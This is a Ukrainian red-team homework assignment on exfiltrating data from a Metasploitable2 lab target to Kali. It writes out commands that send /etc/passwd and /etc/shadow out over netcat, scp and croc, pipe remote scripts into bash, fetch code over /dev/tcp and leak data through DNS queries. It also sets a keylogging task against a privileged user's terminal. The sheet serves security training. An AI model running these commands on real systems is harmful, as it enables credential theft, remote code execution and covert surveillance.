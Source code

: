 
# 🛡️ Lab 7: Домашнє Завдання: Ексфільтрація та Передача Даних (Red Team практикум)

Цей блок домашніх завдань орієнтований на практичне відпрацювання технік ексфільтрації файлів із Metasploitable2 або інших цільових машин у контрольованих середовищах. Кожне завдання **має бути виконане, задокументоване** і містити:

---

## 📦 Завдання 1: Ексфільтрація через Netcat

**Мета:** Передати файл `/etc/passwd` з Metasploitable2 на Kali через Netcat.

🔹 Команди:
- Kali:
  ```bash
  nc -lvnp 9000 > passwd_copy
  ```
- Metasploitable2:
  ```bash
  nc <kali_ip> 9000 < /etc/passwd
  ```

✅ *Надати підтвердження, що файл отримано.*

---

## 🌐 Завдання 2: Передача через `curl | bash`

**Мета:** Завантажити скрипт з Kali і виконати його на Metasploitable2 без збереження.

🔹 Kali:
```bash
python3 -m http.server 80
```

🔹 Metasploitable2:
```bash
curl http://<kali_ip>/payload.sh | bash
```

✅ *Вивід виконання скрипта.*

---

## 🔐 Завдання 3: Використання SCP

**Мета:** Передати файл з Metasploitable2 на Kali або навпаки.

🔹 З таргета:
```bash
scp /etc/shadow kali@<kali_ip>:/tmp/shadow_copy
```

✅ *Підтвердити копіювання. Якщо не вдалося — описати чому (SSH, firewall, auth).*

---

## 🧬 Завдання 4: Base64 передача вручну

**Мета:** Кодувати файл у base64 на Kali, вручну вставити на Metasploitable2, відновити.

🔹 Kali:
```bash
base64 -w0 test.sh
```

🔹 Metasploitable2:
```bash
echo "<base64_string>" > file.b64
base64 -d file.b64 > restored.sh
chmod +x restored.sh
```

✅ *Показати, що файл працює.*

---

## 🧠 Завдання 5: Якщо немає curl/wget — використання Bash TCP `/dev/tcp`

**Мета:** Отримати скрипт без curl/wget через `bash`.

🔹 Bash-функція:
```bash
function __wget() {
    ...
}
```

🔹 Команда:
```bash
__wget http://<kali_ip>/file.sh | bash
```

✅ *Якщо не працює — пояснити.*

---

## 🌐 Завдання 6: Ексфільтрація через DNS (capture-only)

**Мета:** Передати дані з Metasploitable2 у вигляді DNS-запитів і перехопити на Kali.

🔹 Kali:
```bash
tcpdump -i any port 53 -w dnslog.pcap
```

🔹 Metasploitable2:
```bash
# Python-скрипт, що генерує DNS-запити з даними
```

✅ *Витягти дані з pcap через tshark або вручну.*

---

## 🚀 Завдання 7: Передача через `croc`

**Мета:** Встановити `croc`, передати файл `shadow`, отримати на Kali.

🔹 Metasploitable2:
```bash
curl https://getcroc.schollz.com | bash
croc send /etc/shadow
```

🔹 Kali:
```bash
croc <code>
```

✅ *Файл повинен дійти повністю.*

---

## 📤 Завдання 8: Власний upload-сервер + передача через curl з авторизацією

**Мета:** Завантажити файл на сервер з Basic Auth.

🔹 Kali:
```bash
python3 upload_server.py  # Flask сервер з Basic Auth
```

🔹 Metasploitable2:
```bash
curl -u user:pass -F "files=@/etc/hostname" http://<kali_ip>:8000/upload
```

✅ *Файл повинен з’явитись на сервері.*

---

## 🔑 Завдання 9: Реалізувати техніку Keylogger

**Мета:** Отримати команди які вводитиме адміністратор msfadmin або kali

🔹 Отримати PID із терміналу не на пряму, а використовуючи ексфільтрацію даних або інший спосіб, що дозволить отримати PID привілейованого користувача

```bash
ps aux | grep -E 'bash|zsh' | grep -v $$ | grep -v grep | base64 | tr -d '\\n' | fold -w50 | while read x; do host $x.exfil.yourdomain.com; done

```
🔹 Підключитись до цього PID та отримати дані які  вводить привілейований користувач.
🔹 Спробувати різні методи отримання даних, як збереження у файл і отримання через nc так і якісь автоматизовані техніки.

✅ *Отримано команди із терміналу*

---

## 📌 Формат звіту:

Кожне завдання оформити у вигляді:

```
### Завдання X: Назва
✅ Вивід / скріншот
🧠 Як вирішували
❌ Якщо не спрацювало — чому
🔁 Інші варіанти (опціонально)
```

---

Успіхів! 👾
